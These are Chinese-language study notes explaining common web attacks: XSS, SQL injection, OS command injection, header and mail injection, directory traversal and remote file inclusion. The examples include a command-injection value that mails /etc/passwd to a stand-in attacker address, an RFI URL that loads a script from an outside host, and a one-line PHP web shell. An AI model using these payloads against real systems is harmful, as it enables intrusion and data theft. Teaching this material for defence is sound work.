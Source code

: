 **XSS示例**：如一个登录页www.xxx.com/login?id=xxx 攻击者将此URI改为带有script的URI，www.xxx.com/login?id=xxx>var.....并诱导用户请求，之后数据便会流向script中的攻击者设置的uri中

**对用户Cookie窃取攻击**：同样通过script，P217

**SQL注入攻击**：比如uri传参时，传入name=abc'--

sql拼接后就会注释掉后面的判断。所以采用#{方式防止}

**OS命令注入攻击**：通过web应用执行非法的操作系统命令攻击。只要在能调用shell函数的地方就有被攻击风险

如发送邮件，;在OS命令中，会被解析为分割多个执行命令的标记。

```javascript
open(MAIL, "| /usr/sbin/sendmail $adr");
程序中的open函数调用sendmail命令发送邮件，将$adr地址改为如下
; cat /etc/passwd | mail hack@example.jp
程序接受该值，构成一下的命令组合，将passwd发送到hack邮箱了
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

**HTTP首部注入攻击**，通过在相应首部字段内插入换行，添加任意响应首部或主体的攻击，被动攻击

如：在Location后添加%0D%0A（解析为换行符）Set-Cookie：SID=123456，这样就能操作Cookie，或者说插入任意字段。

**HTTP相应截断攻击**：通过两个连续的%0D%0A%0D%0A，并排插入后就可以伪造body。本质上还是首部注入攻击的一种。

如：Set-Cookie：UID=%0D%0A%0D%0A我是攻击者，伪造网页<!--

将之前的页面对应的首部字段和主体部分注释了。

**邮件首部注入攻击**：攻击者通过向邮件首部To或Subject内任意添加非法内容发起攻击。

如：攻击者将如下数据作为邮件地址发起请求。%0D%0A代表换行符，之后就可Bcc给追加发送。

使用两个连续的换行符就可能篡改文本内容发送

```powershell
bob@hackr.jp%0D%0ABcc:user@example.com
bob@hackr.jp%0D%0A%0D%0ATest Message
```

**目录遍历攻击**：通过查询字段指定某个文件名，再绕过文件读取指定文件。

```html
http://eample.com/read.php?log=0401.log
攻击者设置如下字段发起请求，就可以访问passwd文件了
http://eample.com/read.php?log=../../etc/passwd
```

**远程文件包含漏洞**：指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的URL充当依赖文件，让脚本读取后，就可运行任意脚本的攻击，主要是PHP的漏洞。

如：

```bash
原URL
http://exa.com/foo.php?mod=news.php
脚本如下
$modname = $-GET['mod'];
include($modname);
攻击者URL发送
http://exa.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=1s
攻击者http://hackr.jp/cmd.php脚本,执行了Web服务器文件及目录信息的ls命令
<? system($_GET['cmd']) ?>
```
